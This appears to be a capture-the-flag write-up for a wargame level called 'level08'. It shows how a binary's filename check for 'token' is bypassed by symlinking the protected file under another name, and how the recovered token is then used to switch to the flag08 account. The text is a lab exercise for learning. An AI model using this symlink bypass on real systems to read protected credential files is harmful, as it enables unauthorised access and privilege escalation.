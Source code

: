 ## level08

First step
```bash
$ ./level08
./level08 [file to read]
```

Second step
```bash
$ ./level08 token
You may not access 'token'
```

Third step
```bash
./level08 token
...
strstr("token", "token")  ...  = "token"
...
```

As we could understand from above, `level08` can read the file ONLY if it's name not `token`. <br>

The solution is simple:
```bash
# Create symbolic link with a different name in the directory with rw rights.
ln -s /home/user/level08/token /var/crash/t0k3n

./level08 /var/crash/t0k3n
```

The token is a password to flag08!
```bash
su flag08
```
